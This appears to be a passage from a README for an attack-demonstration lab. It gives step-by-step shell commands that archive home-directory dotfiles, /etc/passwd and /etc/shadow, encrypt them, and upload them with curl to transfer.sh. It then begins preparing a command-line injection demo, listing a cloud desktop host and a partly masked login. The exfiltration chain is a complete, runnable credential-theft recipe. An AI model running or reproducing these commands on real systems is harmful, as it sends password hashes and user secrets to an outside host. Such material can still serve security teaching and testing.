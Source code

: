 
1. Gathering the sensitive files

  ```bash
  tar cvf /tmp/upload.tar $HOME/.* /etc/passwd /etc/shadow
  bzip2 /tmp/upload.tar
  ```

2. Encrypt the file

  ```bash
  gpg --batch --yes --passphrase $KEY --output /tmp/upload --symmetric /tmp/upload.tar.bz2
  ```

3. Data leakage to `transfer.sh`

  ```bash
  curl --upload-file /tmp/upload https://transfer.sh/upload 
  ```
  
4. To re-run the attack, do some clean-up on *vm0*

	```bash
	sudo rm -rf /tmp/upload.tar /tmp/upload.tar.bz2 /tmp/upload
	```


## 2. Command-line injection with input sanitization failures

### Preparation stage

* In order to launch the attack, remote controller service should be running
  from `vm0`.

  * Check whether port `8000` open from `vm0` 
  
  ```bash
	netstat -alntu | grep 8000
  ```
  
  If so, the service is already running, therefore you don't have to run the service again.

  * Otherwise, you can follow the following steps to run the service.
  
	    1. Remote login (can use VNC Viewer) to the GUI desktop (ec2-107-23-72-63.compute-1.amazonaws.com:3389).
	      * Login credential: `ubuntu/A*****5`
	    2. Open two *Terminals* and run the following commands.
	      
	      * Command 1
	        ```bash
	        python3 /opt/NECLA/SBrainDemo/kodi_dbus.py
	        ```
	      
	      * Command 2
	        ```bash
	        python /opt/NECLA/SBrainDemo/kodi_web.py
	        ```
	    3. Run `kodi` from Remote Desktop
